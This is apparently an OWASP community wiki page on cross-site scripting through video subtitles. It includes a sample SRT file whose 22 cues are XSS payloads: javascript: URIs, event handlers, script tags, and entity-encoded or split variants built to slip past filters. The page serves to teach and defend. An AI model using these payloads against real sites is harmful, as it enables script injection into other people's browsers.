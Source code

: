 ```yaml
---

layout: col-sidebar
title: Xss in subtitle
author: 
contributors: 
permalink: /attacks/Xss_in_subtitle
tags: attack, Xss in subtitle
auto-migrated: 1

---
```


## Description

It is possible for an attacker to execute JavaScript in a video's
subtitle. This is also referred to as XSS (Cross-Site Scripting).if a
website load subtitle separately in browser then a attacker can run any
html or javascript in video subtitle. It has been tested on some video
services.

## Examples

the attacker can save the mentioned contents below by the format of srt
and upload prepared srt file as a video's subtitles

﻿

1
﻿ 00:00:37,618 --\> 00:00:42,557
﻿ \<font color="\#ffff00"\>: '';\!--"\<XSS\>=&{()}\</font\>

2
﻿ 00:00:58,425 --\> 00:01:00,704
﻿ <IMG SRC="javascript:alert('XSS');">

3
﻿ 00:01:00,705 --\> 00:01:01,873
﻿ <IMG SRC=javascript:alert('XSS')>

4
﻿ 00:01:02,225 --\> 00:01:04,519
﻿ <IMG SRC=javascript:alert('XSS')>

5
﻿ 00:01:04,520 --\> 00:01:05,547
﻿ <IMG SRC=javascript:alert('XSS')>

6
﻿ 00:01:05,864 --\> 00:01:08,117
﻿ <IMG SRC=javascript:alert('XSS')>

7
﻿ 00:01:08,224 --\> 00:01:09,223
﻿ \<IMG """\>

    <SCRIPT>

    alert("XSS")

    </SCRIPT>

"\>

8
﻿ 00:01:09,224 --\> 00:01:10,434
﻿ <IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

9
﻿ 00:01:11,384 --\> 00:01:12,427
﻿ <IMG SRC=# onmouseover="alert('xxs')">

10
﻿ 00:01:15,504 --\> 00:01:17,506
﻿ <IMG SRC= onmouseover="alert('xxs')">

11
﻿ 00:01:19,743 --\> 00:01:20,786
﻿ <IMG onmouseover="alert('xxs')">

12
﻿ 00:01:24,183 --\> 00:01:25,351
﻿ <IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>

13
﻿ 00:01:40,663 --\> 00:01:41,705
﻿
<img src=xonerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">

14
﻿ 00:01:42,703 --\> 00:01:45,742
﻿ \<IMG SRC=<javascript:alert>( 'XSS')\>

15
﻿ 00:01:45,743 --\> 00:01:46,285
﻿ \<IMG SRC=&\#0000106&\#0000097&\#0000118&\#0000097&\#0000115&\#0000099&\#0000114&\#0000105&\#0000112&\#0000116&\#0000058&\#0000097&
\#0000108&\#0000101&\#0000114&\#0000116&\#0000040&\#0000039&\#0000088&\#0000083&\#0000083&\#0000039&\#0000041\>

16
﻿ 00:01:48,503 --\> 00:01:49,545
﻿ <IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>

17
﻿ 00:01:49,582 --\> 00:01:51,709
﻿ <IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>

18
﻿ 00:01:54,822 --\> 00:01:58,200
﻿ <IMG SRC="jav   ascript:alert('XSS');">

19
﻿ 00:02:01,021 --\> 00:02:03,691
﻿ <IMG SRC="jav
  ascript:alert('XSS');">

20
﻿ 00:02:04,702 --\> 00:02:05,744
﻿ <IMG SRC="javascript:alert('XSS');">

21
﻿ 00:02:15,700 --\> 00:02:18,536
﻿ \<IMG SRC="<javascript:alert>('XSS')"

22
﻿ 00:02:18,740 --\> 00:02:22,619
﻿ \\";alert('XSS');//



# Authors and Primary Editors

Mohammad MortazaviZade - 2mzrp2@gmail.com

## Related [Attacks](https://owasp.org/www-community/attacks/)

  - [XSS Attacks](XSS_Attacks "wikilink")
  - [:Category:Injection Attack](:Category:Injection_Attack "wikilink")
  - [Invoking untrusted mobile
    code](Invoking_untrusted_mobile_code "wikilink")
  - [Cross Site History Manipulation
    (XSHM)](Cross_Site_History_Manipulation_\(XSHM\) "wikilink")

## Related [Vulnerabilities](https://owasp.org/www-community/vulnerabilities/)

  - [:Category:Input Validation
    Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")
  - [Cross Site Scripting Flaw](Cross_Site_Scripting_Flaw "wikilink")
  - [Types of Cross-Site
    Scripting](Types_of_Cross-Site_Scripting "wikilink")

## Related [Controls](https://owasp.org/www-community/controls/)

  - [:Category:Input Validation](:Category:Input_Validation "wikilink")
  - [HTML Entity Encoding](HTML_Entity_Encoding "wikilink")
  - [Output Validation](Output_Validation "wikilink")
  - [Canonicalization](Canonicalization "wikilink")

## Categories

[Category:Injection](https://owasp.org/www-community/Injection_Flaws)
[Category:Attack](Category:Attack "wikilink") [Category:Code
Snippet](Category:Code_Snippet "wikilink")
